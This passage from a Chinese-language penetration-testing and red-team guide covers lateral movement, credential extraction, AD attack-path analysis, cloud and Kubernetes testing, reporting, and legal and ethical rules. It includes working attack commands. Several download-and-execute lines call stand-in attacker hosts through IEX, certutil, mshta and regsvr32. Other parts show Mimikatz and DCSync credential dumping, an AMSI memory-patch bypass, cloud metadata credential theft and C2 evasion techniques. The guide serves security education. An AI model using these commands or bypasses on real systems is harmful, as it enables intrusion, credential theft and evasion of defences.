| WMI | WMI (135+动态端口) | wmiexec.py、Invoke-WmiMethod | 中 | 隐蔽性优于 PsExec |
| WinRM | HTTP/HTTPS (5985/5986) | Evil-WinRM | 中 | 已启用 WinRM 的环境 |
| DCOM | RPC (135+动态端口) | dcomexec.py | 高（检测少） | 绕过基于服务的白名单 |
| SSH | SSH (22) | ssh、plink | 高 | Linux 环境或混合环境 |
| RDP | RDP (3389) | xfreerdp、SharpRDP | 中 | 需要图形界面的场景 |
| 计划任务 | SMB/RPC | schtasks、at | 中 | 持久化 + 执行 |

```bash
# Impacket 工具套件横向移动示例
# WMI 执行（比 PsExec 更隐蔽）
impacket-wmiexec domain/user:password@target "whoami"

# SMB 执行（经典方式，但容易被检测）
impacket-psexec domain/user:password@target

# Evil-WinRM 交互式 Shell
evil-winrm -i target -u user -p password

# DCOM 执行
impacket-dcomexec domain/user:password@target "powershell -ep bypass -c 'IEX(New-Object Net.WebClient).DownloadString(\"http://attacker/shell.ps1\")'"
```

### 4.3 凭据收集与利用

凭据是横向移动的"燃料"。渗透测试中需要系统化地搜索和提取目标环境中的各类凭据。

**凭据存储位置清单：**

| 存储位置 | 凭据类型 | 提取方法 |
|---------|---------|---------|
| LSASS 进程内存 | 登录用户的明文密码/NTLM Hash | Mimikatz `sekurlsa::logonpasswords` |
| SAM 数据库 | 本地用户 NTLM Hash | `reg save HKLM\SAM` + `secretsdump.py` |
| LSASS Dump | 完整的 LSASS 内存转储 | `procdump -ma lsass.exe lsass.dmp`，离线提取 |
| DPAPI | 浏览器密码、Wi-Fi 密码、RDP 凭据 | Mimikatz `dpapi::cred` |
| Group Policy Preferences | 域管理员密码（GPP 密码） | `gpp-decrypt` 或 `Get-GPPPassword` |
| 注册表 | 自动登录密码、服务账户密码 | `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"` |
| 配置文件 | 数据库连接串、API Key | 搜索 Web 根目录、应用配置文件 |
| 浏览器 | 保存的网站密码 | SharpChrome、LaZagne |
| SSH 密钥 | 私钥文件 | 搜索 `id_rsa`、`id_ed25519` |

```powershell
# Mimikatz 凭据提取（需要管理员权限）
# 提取 LSASS 中的凭据
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# 提取 SAM 数据库中的本地账户哈希
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"

# 提取域控制器上的所有域凭据（需要域管理员权限）
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:corp.local /user:krbtgt" "exit"
```

### 4.4 BloodHound 攻击路径分析

BloodHound 使用图论算法分析 Active Directory 中的信任关系和攻击路径，是内网渗透规划的必备工具。

```bash
# 数据收集（SharpHound）
# 在被攻陷的域内主机上执行
SharpHound.exe -c All --zipfilename data.zip

# 或使用 Python 版本远程收集
bloodhound-python -u user -p password -d domain.local -dc dc.domain.local -c All

# 导入数据到 Neo4j 数据库（BloodHound 后端）
# 启动 Neo4j + BloodHound
neo4j console  # 默认 http://localhost:7474
bloodhound   # 默认 http://localhost:7687

# BloodHound 预置查询（Cypher）
# 查找到域管理员的最短攻击路径
MATCH p=shortestPath((n:User {name:'USER@DOMAIN.LOCAL'})-[*1..]->(g:Group {name:'DOMAIN ADMINS@DOMAIN.LOCAL'}))
RETURN p

# 查找 Kerberoastable 用户
MATCH (n:User) WHERE n.hasspn=true AND NOT n.name STARTS WITH 'KRBTGT'
RETURN n.name, n.serviceprincipalnames
```

## 五、绕过安全控制的高级技术

### 5.1 Windows 安全机制绕过

现代 Windows 系统部署了多层安全防护。红队需要掌握对应的绕过技术才能成功执行操作。

#### 5.1.1 AMSI 绕过

AMSI（反恶意软件扫描接口）是 Windows 10 引入的安全机制，在 PowerShell、VBScript、JScript 等脚本执行前进行内容扫描。绕过 AMSI 是在 Windows 上执行脚本载荷的前提。

**AMSI 工作原理：**



**绕过技术分类：**

| 技术 | 原理 | 持久性 | 检测难度 |
|------|------|--------|---------|
| 内存补丁 | 修改 amsi.dll 中 AmsiScanBuffer 函数，使其立即返回 | 进程生命周期内 | 中 |
| 字符串混淆 | 将敏感字符串拆分、编码，运行时拼接 | 一次性 | 低 |
| 反射加载 | 使用 .NET 反射直接加载程序集，绕过 AMSI 扫描 | 取决于实现 | 中 |
| COM 对象劫持 | 注册恶意 COM 对象覆盖 AMSI 组件 | 持久化 | 高 |

```powershell
# AMSI 绕过示例（内存补丁 - 教育用途）
# 将 AmsiScanBuffer 函数的前几个字节修改为立即返回
$code = @"
using System;
using System.Runtime.InteropServices;
public class AMSI {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    
    public static void Bypass() {
        IntPtr lib = LoadLibrary("amsi.dll");
        IntPtr addr = GetProcAddress(lib, "AmsiScanBuffer");
        uint oldProtect;
        VirtualProtect(addr, (UIntPtr)5, 0x40, out oldProtect);
        // 将函数开头修改为 mov eax, 0x80070057; ret（返回 E_INVALIDARG）
        Marshal.Copy(new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 }, 0, addr, 6);
    }
}
"@
# 注意：现代 EDR 已能检测此技术，实际使用需要更复杂的绕过
```

#### 5.1.2 ETW 绕过

ETW（Event Tracing for Windows）是 Windows 的事件记录框架，EDR 和 SIEM 系统依赖 ETW 收集遥测数据。ETW 的核心是 NtTraceEvent 系统调用，绕过它可以阻止安全工具接收事件。

```powershell
# ETW 绕过：修改 EtwEventWrite 函数使其立即返回
# 原理与 AMSI 绕过类似，都是内存补丁
$etw = [System.Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider')
$field = $etw.GetField('m_enabled', 'NonPublic,Instance')
# 将 ETW 的 m_enabled 标志设为 false
```

#### 5.1.3 AppLocker / WDAC 绕过

应用程序控制策略限制可执行文件的运行。绕过技术的核心思想是利用已授权的合法程序执行恶意操作。

**LOLBAS（Living Off the Land Binaries and Scripts）：**

Windows 自带的合法二进制文件可以被滥用来执行任意代码、下载文件或绕过应用白名单。

| LOLBAS 二进制 | 功能 | 用途 |
|--------------|------|------|
| `msbuild.exe` | 编译 .NET 项目 | 执行内联 C# 代码 |
| `regsvr32.exe` | 注册 COM 组件 | 执行远程 SCT 脚本（T1117） |
| `rundll32.exe` | 加载 DLL | 执行 DLL 中的导出函数 |
| `certutil.exe` | 证书管理 | 下载远程文件（T1105） |
| `mshta.exe` | HTML 应用程序 | 执行远程 HTA 文件 |
| `installutil.exe` | .NET 安装工具 | 执行 .NET 程序集中的恶意代码 |

```bash
# LOLBAS 文件下载示例
# certutil 下载远程文件
certutil -urlcache -split -f http://attacker.com/payload.exe C:\temp\payload.exe

# mshta 执行远程 HTA
mshta http://attacker.com/payload.hta

# regsvr32 执行远程 SCT 脚本（Squiblydoo）
regsvr32 /s /n /u /i:http://attacker.com/payload.sct scrobj.dll
```

### 5.2 C2 隐蔽通信设计

C2（命令与控制）通信的隐蔽性是红队行动的核心。一旦 C2 通道被检测到，整个行动就会暴露。

#### 5.2.1 C2 通信协议选择

| 协议 | 隐蔽性 | 带宽 | 防火墙穿透 | 典型工具 |
|------|--------|------|-----------|---------|
| HTTPS | 高（与正常 Web 流量混合） | 高 | 好（通常允许 443 出站） | Cobalt Strike、Sliver |
| DNS | 极高（DNS 流量很少被深度检查） | 低 | 极好（几乎不被阻断） | DNScat2、Sliver DNS |
| WebSocket | 高（看似 HTTP 升级连接） | 高 | 好 | 自定义 C2 |
| ICMP | 中（企业可能监控 ICMP 数据） | 极低 | 好 | icmpsh |
| 域前置 | 极高（利用 CDN 的 SNI 与 Host 分离） | 高 | 极好 | Cobalt Strike、自定义 |

**域前置（Domain Fronting）原理：**



#### 5.2.2 流量伪装最佳实践

- **模仿合法流量模式**：C2 通信的包大小、频率、时间分布应模仿正常应用（如 Office 365 API 调用）
- **使用合法域名**：C2 域名应使用正常注册的域名，避免使用 DGA（域名生成算法）生成的明显可疑域名
- **Jitter（抖动）**：心跳间隔加入随机延迟，避免固定频率被统计分析检测
- **Malleable C2 Profile**：Cobalt Strike 支持自定义通信配置文件，让 C2 流量看起来像任何 HTTP 应用

## 六、云环境渗透测试

### 6.1 云渗透测试与传统渗透测试的差异

云环境的安全边界与传统网络截然不同。渗透测试人员必须理解共享责任模型和云特有的攻击面。

| 维度 | 传统渗透测试 | 云环境渗透测试 |
|------|------------|--------------|
| 安全边界 | 网络防火墙、物理隔离 | IAM 策略、安全组、VPC |
| 初始访问 | 网络漏洞、物理入侵 | 凭据泄露、配置错误、过度授权 |
| 横向移动 | 网络层跳转 | IAM 角色切换、跨账户访问 |
| 权限提升 | 本地内核漏洞 | IAM 策略利用、服务配置错误 |
| 数据位置 | 明确的服务器 | S3 Bucket、RDS、DynamoDB 等分布式存储 |
| 合规限制 | 测试自由度高 | 云服务商 TOS 限制、需预注册测试 IP |

### 6.2 AWS 渗透测试关键检查项

```bash
# 使用 ScoutSuite 进行 AWS 安全审计
scout aws --provider aws --user-account

# 使用 Prowler 进行 CIS Benchmark 检查
prowler aws --compliance cis_2.0_aws

# IAM 权限分析：检查过度授权的策略
# 使用 enumerate-iam 工具测试当前凭证的实际权限
python3 enumerate-iam.py --access-key AKIA... --secret-key ...

# 检查 S3 Bucket 公开访问
aws s3api get-bucket-acl --bucket target-bucket
aws s3api get-bucket-policy --bucket target-bucket

# 检查元数据服务（IMDSv1 可被 SSRF 攻击利用）
curl http://169.254.169.254/latest/meta-data/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# EC2 实例角色凭据获取
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME
```

### 6.3 容器与 Kubernetes 安全

容器化环境引入了新的攻击面：容器逃逸、镜像投毒、集群配置错误等。

**Kubernetes 常见攻击路径：**



```bash
# Kubernetes 安全检查
# 检查 API Server 匿名访问
curl -sk https://kubernetes.default.svc/api/v1/namespaces

# 使用 kubeletctl 扫描 kubelet API
kubeletctl scan -s 192.168.1.0/24

# 列出所有 Secrets
kubeletctl --server target run -p "/bin/cat" -c "/var/run/secrets/kubernetes.io/serviceaccount/token"
kubectl --token=$TOKEN --server=https://target:6443 get secrets -A

# 容器逃逸检查
# 检查是否以特权模式运行
cat /proc/1/status | grep CapEff
# CapEff: 0000003fffffffff = 特权容器

# 检查宿主机文件系统挂载
mount | grep -E '/host|/rootfs'
```

## 七、渗透测试报告与沟通

### 7.1 报告撰写标准

渗透测试的最终产出是报告，而不是发现的漏洞数量。一份优秀的报告能让技术人员准确复现漏洞，让管理层理解风险并做出决策。

**报告结构模板：**

```markdown
# 渗透测试报告

## 1. 执行摘要（1-2 页）
- 测试目标和范围概述
- 关键发现总结（严重/高危/中危/低危数量）
- 整体风险评级（Critical / High / Medium / Low）
- 最紧急的 3 个修复建议
- 测试的时间线和限制

## 2. 方法论（1 页）
- 测试标准（PTES / OWASP / 合规要求）
- 测试类型（黑盒 / 白盒 / 灰盒）
- 测试范围（IP 段、域名、应用）
- 测试时间窗口

## 3. 技术发现（每个漏洞一节）
### 3.1 [漏洞标题]
- **CVSS 评分**：8.5（高危）
- **受影响资产**：192.168.1.100 / app.target.com
- **漏洞描述**：[技术细节]
- **复现步骤**：[截图 + 请求/响应]
- **影响分析**：[攻击者能做什么]
- **修复建议**：[具体、可操作的修复方案]
- **参考资料**：[CVE、安全公告链接]

## 4. 攻击路径图（1-2 页）
- 从初始访问到目标达成的完整路径
- 可视化攻击链

## 5. 风险评估矩阵
- 漏洞严重性 × 可利用性 矩阵
- 优先修复排序

## 6. 附录
- 原始扫描数据
- 工具输出
- 方法论详细说明
```

### 7.2 CVSS v3.1 评分实操

CVSS 是业界通用的漏洞评分系统。正确使用 CVSS 可以让漏洞的风险评估有据可依，而不是凭主观判断。

**CVSS v3.1 基础指标计算示例：**

| 漏洞 | AV | AC | PR | UI | S | C | I | A | 评分 | 等级 |
|------|----|----|----|----|---|---|---|---|------|------|
| SQL 注入（认证后） | N | L | L | N | C | H | H | H | 8.8 | 高危 |
| XSS（反射型） | N | L | N | R | C | L | L | N | 6.1 | 中危 |
| 信息泄露（版本号） | N | L | N | N | U | L | N | N | 5.3 | 中危 |
| RCE（未认证） | N | L | N | N | C | H | H | H | 9.8 | 严重 |
| IDOR（水平越权） | N | L | L | N | C | H | H | N | 8.1 | 高危 |

**CVSS 向量字符串格式：**

```text
# 未认证 RCE
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H → 9.8 Critical

# 认证后 SQL 注入
CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H → 8.8 High

# 反射型 XSS
CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N → 6.1 Medium
```

### 7.3 DREAD 模型

DREAD 是另一种风险评估模型，比 CVSS 更直观，适合快速评估大量发现：

| 维度 | 说明 | 1-3 低 | 4-6 中 | 7-10 高 |
|------|------|--------|--------|--------|
| Damage（损害） | 攻击成功造成的损失 | 仅影响非关键数据 | 影响敏感数据 | 完全系统控制 |
| Reproducibility（可复现性） | 攻击的可靠程度 | 需要多个条件 | 特定条件下可复现 | 每次都能复现 |
| Exploitability（可利用性） | 发动攻击的难度 | 需要高级技能和工具 | 需要一般技能 | 自动化工具即可 |
| Affected Users（受影响用户） | 受影响的范围 | 极少数用户 | 部分用户 | 所有用户 |
| Discoverability（可发现性） | 漏洞被发现的难度 | 需要内部知识 | 通过枚举可发现 | 明显可见 |

## 八、红队工程化与自动化

### 8.1 红队自动化框架

现代红队行动越来越依赖自动化框架来提高效率和一致性。

**主流自动化攻击框架对比：**

| 框架 | 开发商 | 类型 | 特点 | 适用场景 |
|------|--------|------|------|---------|
| Caldera | MITRE | 开源 | 基于 ATT&CK 的自动化攻击 | 安全验证、蓝队训练 |
| Atomic Red Team | Red Canary | 开源 | ATT&CK 技术原子化测试 | 检测能力验证 |
| Infection Monkey | Guardicore | 开源 | 自动化内网渗透模拟 | 网络分段验证 |
| Cobalt Strike | HelpSystems | 商业 | 完整的红队 C2 平台 | 专业红队行动 |
| Sliver | BishopFox | 开源 | Go 语言 C2 框架 | 替代 Cobalt Strike |

```bash
# Atomic Red Team 示例：测试特定 ATT&CK 技术
# 安装
Install-Module -Name AtomicRedTeam -Scope CurrentUser
Import-Module AtomicRedTeam

# 执行特定测试（如 T1053.005 - 计划任务）
Invoke-AtomicTest T1053.005 -TestNumbers 1

# Caldera 部署
git clone https://github.com/mitre/caldera.git --recursive
cd caldera
pip install -r requirements.txt
python server.py --insecure
# 访问 http://localhost:8888 进行操作
```

### 8.2 持续安全验证（BAS）

Breach and Attack Simulation（BAS）是一种新兴的安全验证方法，它持续地、自动化地模拟真实攻击，验证安全控制是否有效。

**BAS 与传统渗透测试的区别：**

| 维度 | 传统渗透测试 | BAS |
|------|------------|-----|
| 频率 | 年度或季度 | 持续/每日 |
| 范围 | 定义明确的范围 | 全面覆盖 |
| 人工参与 | 高度依赖人工 | 大部分自动化 |
| 目标 | 发现新漏洞 | 验证现有防御 |
| 产出 | 渗透测试报告 | 持续的安全态势仪表盘 |
| 成本 | 按项目计费 | 订阅模式 |

## 九、合规与认证体系

### 9.1 渗透测试相关合规要求

不同行业和法规对渗透测试有不同的要求。理解这些要求有助于定义测试范围和频率。

| 合规标准 | 渗透测试要求 | 测试频率 | 适用行业 |
|---------|------------|---------|---------|
| PCI DSS v4.0 | 11.3.1 - 外部渗透测试 | 至少年度 + 重大变更后 | 支付卡处理 |
| PCI DSS v4.0 | 11.3.2 - 内部渗透测试 | 至少年度 + 重大变更后 | 支付卡处理 |
| SOC 2 Type II | 安全控制验证 | 定期（通常年度） | SaaS / 云服务 |
| ISO 27001 | A.12.6 - 技术漏洞管理 | 定期 | 通用 |
| HIPAA | 安全规则 § 164.308 | 定期 | 医疗健康 |
| NIST 800-53 | CA-8 - 渗透测试 | 组织定义 | 联邦政府 |

### 9.2 渗透测试认证路径

| 认证 | 颁发机构 | 级别 | 考试形式 | 费用 | 适合人群 |
|------|---------|------|---------|------|---------|
| eJPT | INE | 入门 | 48 小时实操 | ~$249 | 完全初学者 |
| PNPT | TCM Security | 中级 | 5 天实操 + 2 天报告 | ~$399 | 转行者 |
| OSCP | OffSec | 中高级 | 24 小时实操 | ~$1,599 | 渗透测试工程师 |
| OSEP | OffSec | 高级 | 48 小时实操 | ~$1,599 | 高级红队人员 |
| OSCE3 | OffSec | 专家 | OSED+OSEP+OSED | ~$5,985 | 安全专家 |
| GPEN | SANS/GIAC | 中级 | 3 小时选择题 | ~$2,499 | 审计/合规人员 |
| GXPN | SANS/GIAC | 高级 | 3 小时选择题 | ~$2,499 | 漏洞研究/高级红队 |
| CRTO | Zero-Point Security | 中级 | 48 小时实操 | ~$399 | 红队初学者 |
| CEH | EC-Council | 入门 | 4 小时选择题 | ~$1,199 | 管理层/合规 |

**推荐学习路径：**



## 十、渗透测试法律与伦理

### 10.1 法律框架

渗透测试人员必须了解相关法律，避免越界导致的法律风险。不同国家和地区的法律规定差异很大。

**核心法律原则：**

- **未授权访问即违法**：绝大多数司法管辖区（中国《刑法》第 285/286 条、美国 CFAA、英国 CMA）都规定未经授权访问计算机系统属于犯罪
- **授权必须书面化**：口头授权在法律上难以证明。必须有签署的授权书，明确测试范围、时间和技术限制
- **测试范围外的行为不受保护**：即使有授权书，超出范围的行为（如攻击范围外的第三方系统）仍然违法
- **数据保护义务**：测试中获取的敏感数据必须按照约定处理（加密存储、按时销毁）

**中国相关法律条款：**

| 法律 | 条款 | 内容 |
|------|------|------|
| 刑法 | 第 285 条 | 非法侵入计算机信息系统罪（3 年以下有期徒刑） |
| 刑法 | 第 286 条 | 破坏计算机信息系统罪（5 年以下，特别严重 5 年以上） |
| 网络安全法 | 第 27 条 | 禁止提供侵入网络的工具和程序 |
| 数据安全法 | 全文 | 数据收集、存储、传输的合规要求 |

### 10.2 漏洞披露伦理

发现漏洞后的处理方式反映了测试人员的专业素养。

**负责任披露（Responsible Disclosure）流程：**

1. **确认漏洞**：确保漏洞真实存在且可复现
2. **通知厂商**：通过安全邮箱（如 security@target.com）或漏洞赏金平台报告
3. **提供合理修复时间**：通常给厂商 90 天修复期（Google Project Zero 标准）
4. **协调发布时间**：与厂商协商公开时间
5. **公开漏洞详情**：修复后发布技术详情，帮助社区学习

**绝对不能做的事：**

- 利用漏洞进行未授权的数据访问或破坏
- 在漏洞修复前公开漏洞详情（零日攻击窗口）
- 向非授权方出售或分享漏洞利用代码
- 在未经授权的系统上测试漏洞利用

## 十一、常见误区与纠正

| 误区 | 纠正 |
|------|------|
| "渗透测试就是用工具扫描" | 工具扫描只是漏洞评估，渗透测试的核心是验证漏洞的可利用性和业务影响 |
| "发现漏洞越多越好" | 质量重于数量。一个经过验证的 RCE 比 100 个未经验证的"信息泄露"更有价值 |
| "Metasploit 是渗透测试的全部" | Metasploit 是一个工具框架，渗透测试是一个方法论驱动的过程 |
| "只关注技术层面" | 社会工程学、物理安全、业务逻辑漏洞同样是重要攻击面 |
| "报告写得越详细越好" | 报告需要针对受众分层：管理层要风险概述，技术团队要复现步骤 |
| "CTF 等于渗透测试" | CTF 是解题竞赛，渗透测试是面对真实业务环境的工程实践 |
| "渗透测试可以覆盖所有风险" | 渗透测试受时间窗口、范围限制，不可能发现所有漏洞 |

## 十二、学习资源推荐

### 12.1 书籍

| 书名 | 作者 | 出版年 | 定位 | 推荐理由 |
|------|------|--------|------|---------|
| 《Penetration Testing》 | Georgia Weidman | 2014 | 入门 | 渗透测试入门经典，覆盖 PTES 全流程 |
| 《The Web Application Hacker's Handbook 2》 | Dafydd Stuttard | 2011 | Web 专项 | Web 漏洞利用最深入的参考书 |
| 《The Hacker Playbook 3》 | Peter Kim | 2018 | 红队实战 | 红队实战技巧和工具链 |
| 《Black Hat Python 2》 | Justin Seitz | 2021 | 编程 | Python 安全工具开发 |
| 《Operator Handbook》 | Joshua Picolet | 2020 | 速查 | 渗透测试命令和技巧速查手册 |
| 《Red Team Field Manual (RTFM)》 | Ben Clark | 2014 | 速查 | 红队操作快速参考 |
| 《Active Directory Security》 | Sean Metcalf | 2022 | AD 专项 | AD 安全攻防最权威的参考 |
| 《Practical Binary Analysis》 | Dennis Andriesse | 2019 | 二进制 | 二进制分析与漏洞利用 |

### 12.2 在线练习平台

| 平台 | 链接 | 特色 | 适合阶段 |
|------|------|------|---------|
| HackTheBox | https://www.hackthebox.com/ | 大量实战靶机，社区活跃 | 中级 |
| TryHackMe | https://tryhackme.com/ | 引导式学习路径 | 入门-中级 |
| Proving Grounds | https://www.offsec.com/labs/ | OSCP 备考专用 | 中级-高级 |
| PentesterLab | https://pentesterlab.com/ | Web 安全专项练习 | 入门-中级 |
| VulnHub | https://www.vulnhub.com/ | 免费下载靶机 | 入门-中级 |
| CyberDefenders | https://cyberdefenders.org/ | 蓝队/DFIR 练习 | 中级 |
| PortSwigger Academy | https://portswigger.net/web-security | Web 漏洞交互式教程 | 入门-高级 |

### 12.3 核心工具清单

**信息收集：**

- **Nmap** — 网络扫描和枚举（https://nmap.org/）
- **Subfinder / Amass** — 子域名枚举
- **httpx** — HTTP 探测和存活验证
- **theHarvester** — 邮箱和子域名收集
- **Shodan / Censys** — 网络空间搜索引擎

**漏洞利用：**

- **Metasploit Framework** — 渗透测试框架（https://www.metasploit.com/）
- **Nuclei** — 模板化漏洞扫描器（https://github.com/projectdiscovery/nuclei）
- **sqlmap** — SQL 注入自动化利用

**内网渗透：**

- **Impacket** — Python 网络协议工具库（https://github.com/fortra/impacket）
- **BloodHound** — AD 攻击路径分析（https://github.com/BloodHoundAD/BloodHound）
- **CrackMapExec** — AD 渗透测试瑞士军刀（https://github.com/byt3bl33d3r/CrackMapExec）
- **Responder** — LLMNR/NBT-NS 投毒（https://github.com/lgandx/Responder）
- **Rubeus** — Kerberos 交互工具（https://github.com/GhostPack/Rubeus）
- **Certify / Certipy** — AD CS 攻击工具
- **Mimikatz** — Windows 凭据提取（https://github.com/gentilkiwi/mimikatz）

**C2 框架：**

- **Cobalt Strike** — 商业红队 C2（https://www.cobaltstrike.com/）
- **Sliver** — 开源 C2（https://github.com/BishopFox/sliver）
- **Mythic** — 跨平台 C2（https://github.com/its-a-feature/Mythic）

**云安全：**

- **ScoutSuite** — 多云安全审计
- **Prowler** — AWS 安全评估
- **Pacu** — AWS 渗透测试框架
- **kubeletctl** — Kubernetes 安全测试

---

> **本章寄语**：渗透测试是一门需要持续学习和实践的技术。真正的渗透测试专家不仅要掌握工具和技术，更要理解系统和网络的工作原理，培养创造性的思维方式。记住：渗透测试的目的是帮助组织发现和修复安全问题，而不是造成损害。技术是一把双刃剑——选择做防御者，还是攻击者，决定了你的职业高度和道德底线。
